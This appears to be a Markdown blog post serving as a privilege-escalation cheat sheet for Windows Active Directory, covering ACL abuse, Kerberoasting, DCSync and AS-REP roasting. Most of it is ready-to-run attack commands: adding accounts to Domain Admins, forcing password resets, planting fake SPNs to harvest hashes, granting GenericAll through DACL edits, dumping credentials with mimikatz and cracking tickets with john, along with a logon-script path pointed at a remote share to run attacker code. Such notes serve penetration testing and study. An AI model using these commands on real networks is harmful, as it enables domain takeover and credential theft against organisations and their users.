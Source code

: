 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**


## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
    ```powershell
    Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
    ```

2. AllExtendedRights
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```

- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

3. Self-Membership

- **Add to Group**
    ```powershell
    Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
    ```

4. ExtendedRight on
- **User-Force-Change-Password (Password Reset)**
    ```powershell
    Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
    Set-DomainUserPassword -Identity delegate -Verbose
    ```

5. WriteProperty
- **Add to Group**
    ```powershell
    Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
    ```

6. WriteOwner
- **Change the object’s owner**
    ```powershell
    Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
    ```
- **Check Owner**
    ```powershell
    Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
    ```

7. WriteDACL
- **Grant Generic Permissions** (must be the owner)
    ```powershell
    $ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
    $IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
    $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
    $ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
    $ADSI.psbase.commitchanges()
    ```

8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.

```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
    ```powershell
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
- Using PowerView:
    ```powershell
    Get-DomainUser –SPN
    ```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
    ```powershell
    Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
    ```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
    ```bash
    john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
    ```

### Targeted Kerberoasting

- Find "Write" Permissions
 	- `Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}`
  
- Find SPN
	- `Get-DomainUser -Identity support1user | select serviceprincipalname`	
	- `Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName`

- Set-SPN
	- `Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}`
	- `Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}`

- Kerberoasting
	- `Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt`


### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
	Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
	Invoke-ASREPRoast -Verbose
```




